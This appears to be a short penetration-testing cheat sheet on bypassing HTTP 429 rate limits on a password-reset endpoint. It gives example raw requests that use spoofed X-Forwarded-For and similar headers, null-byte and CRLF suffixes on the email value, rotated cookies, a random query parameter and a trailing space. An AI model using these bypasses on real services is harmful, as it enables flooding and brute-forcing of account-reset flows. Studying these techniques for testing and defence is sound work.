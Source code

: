 ```yaml
---
title: "Bypass 429 (Too Many Requests)"
author: ["4shen0ne"]
draft: false
---
```


## Try add some custom header {#try-add-some-custom-header}

```nil
X-Forwarded-For : 127.0.0.1
X-Forwarded-Host : 127.0.0.1
X-Client-IP : 127.0.0.1
X-Remote-IP : 127.0.0.1
X-Remote-Addr : 127.0.0.1
X-Host : 127.0.0.1
```

For example:

```nil
POST /ForgotPass.php HTTP/1.1
Host: target.com
X-Forwarded-For : 127.0.0.1
...

email=victim@gmail.com
```


## Adding Null Byte ( %00 ) or CRLF ( %09, %0d, %0a ) at the end of {#adding-null-byte--00--or-crlf--09-0d-0a--at-the-end-of}

the Email can bypass rate limit.

```nil
POST /ForgotPass.php HTTP/1.1
Host: target.com
...

email=victim@gmail.com%00
```


## Try changing user-agents, cookies and IP address {#try-changing-user-agents-cookies-and-ip-address}

```nil
POST /ForgotPass.php HTTP/1.1
Host: target.com
Cookie: xxxxxxxxxx
...

email=victim@gmail.com
```

Try this to bypass

```nil
POST /ForgotPass.php HTTP/1.1
Host: target.com
Cookie: aaaaaaaaaaaaa
...

email=victim@gmail.com
```


## Add a random parameter on the last endpoint {#add-a-random-parameter-on-the-last-endpoint}

```nil
POST /ForgotPass.php HTTP/1.1
Host: target.com
...

email=victim@gmail.com
```

Try this to bypass

```nil
POST /ForgotPass.php?random HTTP/1.1
Host: target.com
...

email=victim@gmail.com
```


## Add space after the parameter value {#add-space-after-the-parameter-value}

```nil
POST /api/forgotpass HTTP/1.1
Host: target.com
...

{"email":"victim@gmail.com"}
```

Try this to bypass

```nil
POST /api/forgotpass HTTP/1.1
Host: target.com
...

{"email":"victim@gmail.com "}
```


## References {#references}

-   [Huzaifa
    Tahir](https://huzaifa-tahir.medium.com/methods-to-bypass-rate-limit-5185e6c67ecd)
-   [Gupta
    Bless](https://gupta-bless.medium.com/rate-limiting-and-its-bypassing-5146743b16be)
